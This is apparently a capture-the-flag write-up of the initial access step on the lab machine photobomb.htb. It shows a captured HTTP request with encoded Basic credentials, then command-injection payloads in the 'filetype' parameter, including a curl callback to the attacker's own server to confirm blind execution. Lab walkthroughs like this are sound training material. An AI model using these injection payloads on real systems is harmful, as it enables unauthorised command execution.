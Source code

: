 ### Initial Access

This page has the following functionality. A user can select one of the given images, choose a filetype between JPG and PNG, choose an image size, and press the ```DOWNLOAD PHOTO TO PRINT``` button. This button will download the selected image to the user’s local system.

Let’s examine this download request using Burp Suite. This is the request:

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=30x20
```

There are three parameters being sent - ```photo``` holding the file of the requested photo, ```filetype``` which holds a string denoting the requested filetype, and ```dimensions``` denoting the size of the requested photo. ```photo``` likely is required to be a file, ```dimensions``` likely gets parsed into integers, but it appears we can put whatever string we want into the ```filetype``` parameter - rife for command injection!

Note that any payloads must be [URL encoded](https://meyerweb.com/eric/tools/dencoder/). We must also start the payloads with a valid filetype, then escape using a ```;``` character. We start by seeing if the ```id``` command works.

##### Payload:
> png;id

The response gave an error message, informing us that the server failed to generate the requested photo. No other information was revealed. Not all hope is lost - it could be that we only have blind command injection capabilities.

To check if the commands are executed at all, we try use ```curl``` on our own web server, where we will see any connections. We use Python to start up a basic web server on port 80.

##### Command:
>python3 -m http.server 80

##### Raw Payload:
> png;curl -XGET [my ip]

##### URL-Encoded Payload:
> png%3Bcurl%20-XGET%20[my ip]
